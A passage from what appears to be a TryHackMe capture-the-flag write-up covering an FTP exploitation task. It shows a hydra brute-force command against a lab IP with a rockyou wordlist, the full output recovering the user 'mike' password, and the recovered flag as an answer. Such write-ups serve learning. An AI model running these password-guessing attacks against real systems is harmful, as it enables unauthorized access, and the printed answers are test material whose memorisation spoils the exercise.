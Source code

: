     Hello,

    I hope everyone is aware that the
    FTP server will not be available 
    over the weekend- we will be 
    carrying out routine system 
    maintenance. Backups will be
    made to my account so I reccomend
    encrypting any sensitive data.

    Cheers,

    Mike
    ```
    **Answer:** mike

### Task 10 - Exploiting FTP
1. What is the password for the user "mike"?<br>
    ```
    $ hydra -t 4 -l mike -P rockyou.txt -vV 10.10.237.138 ftp
    Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-19 15:18:00
    [DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
    [DATA] attacking ftp://10.10.237.138:21/
    [VERBOSE] Resolving addresses ... [VERBOSE] resolving done
    [ATTEMPT] target 10.10.237.138 - login "mike" - pass "123456" - 1 of 14344398 [child 0] (0/0)
    [ATTEMPT] target 10.10.237.138 - login "mike" - pass "12345" - 2 of 14344398 [child 1] (0/0)
    [ATTEMPT] target 10.10.237.138 - login "mike" - pass "123456789" - 3 of 14344398 [child 2] (0/0)
    [ATTEMPT] target 10.10.237.138 - login "mike" - pass "password" - 4 of 14344398 [child 3] (0/0)
    [21][ftp] host: 10.10.237.138   login: mike   password: password
    [STATUS] attack finished for 10.10.237.138 (waiting for children to complete tests)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-19 15:18:06
    ```
    **Answer:** password

1. What is ftp.txt?<br>
    ```
    $ cat ftp.txt 
    THM{y0u_g0t_th3_ftp_fl4g}
    ```
    **Answer:** THM{y0u_g0t_th3_ftp_fl4g}
